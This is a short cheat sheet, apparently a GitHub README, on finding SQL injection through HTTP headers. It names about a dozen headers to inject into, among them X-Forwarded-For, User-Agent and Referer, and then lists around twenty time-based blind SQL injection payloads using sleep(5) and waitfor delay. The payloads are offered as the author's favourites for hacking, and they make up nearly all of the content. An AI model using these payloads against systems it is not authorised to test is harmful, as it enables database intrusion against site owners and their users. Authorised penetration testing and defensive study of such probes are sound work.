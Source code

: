 ## Can't find SQL injections?

### You should try Header Based SQLi's 👇

🔴 What's that?
Vuln. Allows Hackers to exploit SQL injections through HTTP headers being sent between the browser and server.

🟡 But where to find it?
Inject payloads inside of basic HTTP headers

🟢 What payloads do I use?
Use my favorite payloads:
 
### `If the injection works, the response will have a delay of 5 seconds!`
 
# `INSIDE OF THESE HTTP HEADERS INJECT BELOW PAYLOADS`

`X-Forwarded-For`
`User-agent`
`Referer`
`Accept`
`Accept-Charset`
`Content-Type`
`Connection`
`Content-Length`
`X-Client-Ip`

`X-Remote-Ip`
`X-Host`
`X-Forwarded-Host`
 
# `USE THESE PAYLOADS`

* `sleep(5)#`
* `1 or sleep(5)#`
* `" or sleep(5)#`
* `' or sleep(5)#`
* `" or sleep(5)="`
* `' or sleep(5)='`
* `1) or sleep(5)#`
* `") or sleep(5)="`
* `') or sleep(5)='`
* `1)) or sleep(5)#`
* `")) or sleep(5)="`
* `')) or sleep(5)='`
* `;waitfor delay '0:0:5'--`
* `);waitfor delay '0:0:5'--`
* `';waitfor delay '0:0:5'--`
* `";waitfor delay '0:0:5'--`
* `');waitfor delay '0:0:5'--`
* `");waitfor delay '0:0:5'--`
* `));waitfor delay '0:0:5'--`
* `'));waitfor delay '0:0:5'--`
* `"));waitfor delay '0:0:5'--`
